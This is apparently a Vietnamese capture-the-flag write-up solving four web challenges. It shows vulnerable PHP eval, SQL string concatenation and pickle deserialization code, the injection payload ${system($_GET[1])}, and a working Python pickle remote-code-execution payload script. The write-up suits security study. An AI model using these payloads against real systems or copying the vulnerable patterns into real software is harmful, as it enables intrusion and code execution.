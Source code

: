 # Web challenger writeup
`capy3ra`

- [LoveTok](#lovetok)
- [Toxic](#toxic)
- [Neonify ](#neonify)
- [C O P](#c_o_p)

## LoveTok

1. Đây là một bài whitebox nên ta được cung cấp source code.
2. Sau khi đọc source, ta có thể biết được luồng xử lý của app. Ở đây hệ thống sẽ xử lý theo mô hình MVC. Với model TimeModel thực hiện khảo tạo một đối tượng ước tính thời gian với
3. Đối tượng TimeModel được khởi tạo với param `format` được truyền vào
```
public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
```
4. Với hàm khởi tạo model được thực hiện sẽ tạo ra một thuộc tính `prediction` được random một khoảng thời gian
5. Sau đó ở view index biến time sẽ được gán cho kết quả của phương thức getTime() với đoạn code như sau:
```
public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
```
6. Hàm eval sẽ thực hiện một câu lệnh php động với 2 tham số `format` được nhập vào và `prediction` được random ra từ phương thức khởi tạo ở trên để gán giá trị cho biến time.
7. Với tham số format mà ta kiếm soát ta sẽ cố gắng inject vào nó. Hàm `addslashes` được sử dụng để escapse các dấu `'`,`"` nhưng thế vào chưa đủ.
8. Ý tưởng ở đây là ta sẽ chèn đoạn sau `${system($_GET[1])}` vào hàm eval rồi thêm tham số `1` để exec shell.

![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/72279455-41e0-4030-92c0-5933e4098502)

9. RCE thành công. Đọc flag.
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/55d05f7e-1bd9-4f7f-a2fa-580158e1e3d7)

## Toxic

1. Whitebox. Qua phân tích có thể thấy app sẽ tạo ra một object `PageModel` với thuộc tính `file`, rồi nội dung trong sẽ là file được include
2. Có thể đọc file bằng cách thay đổi giá trị thuộc tính rồi serialize lại.
3. Ở bài này, ta có thể đọc được file access.log

![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/87798192-18b6-4525-a44b-61d31ab42a5f)

4. Chèn mã php thông qua user-agent thì nhận thấy rce thành công.

![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/911ef94f-3b4a-49a0-9088-771f825e4044)

## Neonify

1. Ở bài này nhận thấy trang web lấy tham số neon người dùng nhập vào để hiển thị kết quả lên màn hình sử dụng template ERB của ruby.
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/0442c52a-7c62-409c-834c-14189e60edcf)
2. Ở đây, họ sử dụng regex để validate rằng input vào chỉ chứa một chuỗi gồm các chữ và số hoặc dấu cách mà k xuất hiện các ký tự đặc biệt.
3. Tìm cách để bypass nó thì có một bài viết hướng dẫn bypass regex bằng cách xuống dòng [link](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/)
4. Inject template để list file trong thư mục gốc
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/a5b86823-8e3e-43e0-9065-e8cd31d79862)
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/a4a97732-19da-4b2c-85b4-b6e6e0af1e8d)

5. Lấy flag
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/8d6fc4bb-33e0-457e-8d3b-4d36a43f07eb)


## C O P

1. Fuzzing web đồng thời xem source code. Trước hết để ý 2 file `routes.py` và `models.py` nhận thấy web có 2 route chính. 1 là trang chủ lấy thông tin toàn bộ sản phẩm trong bảng products trong db. 2 là endpoint view lấy giá trị product_id để lấy thông tin chi tiết sản phẩm

```
#routes.py
@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))

#models.py
def select_by_id(product_id):
	return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```

2. Tuy nhiên nhận thấy ở đây, họ truy vấn sql bằng cách nối chuỗi, hơn nữa biến product_id có thể dễ dàng kiểm soát. (sqli)

3. Hơn nữa ở đây họ dùng pickle để serialize và deserialize thông tin sản phẩm. Lợi dụng pickle để exploit rce [RCE with pickle](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

4. Dùng dump + b64encode object Items rồi lấy giá trị sau đó insert cột data trong bảng product. Khi mấy lấy dữ liệu thì load + b64 decode từ db.

5. Dựa vào wu trên, code serialize để server pickle load.

```
import pickle
import base64
import subprocess

payload = ['cat', 'flag.txt', 'application/static/.']

class RCE:
    def __reduce__(self):
        return (subprocess.check_output, (payload, ))

if __name__ == '__main__':
    print(base64.b64encode(pickle.dumps(RCE())))

```

6. Sau đó vào url /static/flag.txt lấy flag. (Không hiểu sao cách dùng os.system không được nên phải thay bằng subprocess)
